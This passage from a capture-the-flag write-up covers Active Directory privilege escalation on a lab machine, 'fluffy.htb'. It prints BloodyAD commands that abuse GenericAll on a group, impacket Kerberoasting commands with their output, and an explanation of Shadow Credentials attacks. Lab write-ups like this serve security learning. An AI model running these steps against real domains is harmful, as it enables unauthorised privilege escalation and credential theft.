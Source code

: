 ![](Pasted%20image%2020250831204558.png)
_From Bloodhound I can see <mark style="background: #FFF3A3A6;">GenericAll</mark> on Groupmember_

The enumeration revealed that <b><span style="color:rgb(219, 0, 0)">p.agila</span></b>
 has **GenericAll** permissions over the "Service Accounts" group, enabling privilege escalation through group membership manipulation.

## 7️⃣ Privilege Escalation via Generic Permissions

**Method Used:** Group Membership Manipulation with BloodyAD

**Why this vector:** The GenericAll permission allows complete control over the target object, including adding users to groups and modifying security attributes.

**Commands and Steps:**

**Step 1: Add User to Service Accounts Group**
```bash
bloodyAD --host 10.10.11.69 -u 'p.agila' -p 'pr********303' -d fluffy.htb add genericAll 'Service Accounts' p.agila
[+] p.agila has now GenericAll on Service Accounts
```
{: .nolineno }

**Step 2: Kerberoasting Attack**
With Service Account group membership, attempt to extract service tickets:

```bash
python3 /opt/Tools/impacket/examples/GetUserSPNs.py 'fluffy.htb/p.agila:pr********303' -dc-ip 10.10.11.69 -request
```
{: .nolineno }

**Results:**
```
ServicePrincipalName    Name       MemberOf
----------------------  ---------  ---------------------------------------------
ADCS/ca.fluffy.htb      ca_svc     CN=Service Accounts,CN=Users,DC=fluffy,DC=htb
LDAP/ldap.fluffy.htb    ldap_svc   CN=Service Accounts,CN=Users,DC=fluffy,DC=htb  
WINRM/winrm.fluffy.htb  winrm_svc  CN=Service Accounts,CN=Users,DC=fluffy,DC=htb
```
{: .nolineno }

The Kerberoasting attack yielded service tickets, but traditional password cracking proved unsuccessful, leading to alternative exploitation methods.

From Bloodhound path I got another way to proceed with Shadow credentials attack.
### What is Shadow Credentials Attack

- **What it is:** An attack that leverages the `msDS-KeyCredentialLink` attribute to inject custom certificates for authentication without passwords.

- **Why the target is vulnerable:** Service accounts have permissions allowing modification of the `msDS-KeyCredentialLink` attribute, enabling certificate-based impersonation.

- **Links:**
  - [Shadow Credentials Guide](https://www.hackingarticles.in/shadow-credentials-attack/)
  - [BloodyAD Tool](https://github.com/CravateRouge/bloodyAD)
